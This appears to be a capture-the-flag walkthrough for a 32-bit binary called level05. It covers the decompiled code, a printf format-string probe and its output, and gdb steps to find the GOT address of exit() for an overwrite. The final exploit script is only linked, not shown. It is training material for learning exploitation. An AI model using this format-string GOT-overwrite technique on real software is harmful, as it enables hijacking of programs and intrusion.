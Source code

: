 # level05 walkthrough

Given 32-bit binary, after decompilation we can see that we have an fgets call that reads a string into buffer and a printf call with the string provided from prompt after some mutation:

    char buff[100];
    unsigned int i;

    i = 0;
    fgets(buff, 100, stdin);
    for ( i = 0; i < strlen(buff); ++i )
    {
        if (buff[i] > 'A' && buff[i] <= 'Z' )
            buff[i] ^= 0x20;
    }
    printf(buff);
    exit(0);

The only thing that we can exploit here is a printf call since we have an almost complete control over it's format string.
If we pass the string `python -c 'print "ABCD" + "%x-" * 10' | ./level05` to the prompt then we will find start of our input on 10th position in printf output.

    $ python -c 'print "ABCD" + "%x-" * 10' | ./level05

    abcd64-f7fcfac0-f7ec3b11-ffffd5ef-ffffd5ee-0-ffffffff-ffffd674-f7fdb000-64636261-

Using gdb we can examine GOT table and find the address of exit():

    info function exit
    All functions matching regular expression "exit":

    Non-debugging symbols:
    0x08048370  exit
    0x08048370  exit@plt

Now we can craft a format string for printf in a way to modify exit function value in the GOT table.
For that we wrote a [python script](Resources/gdb_str.py).
??????
Profit!
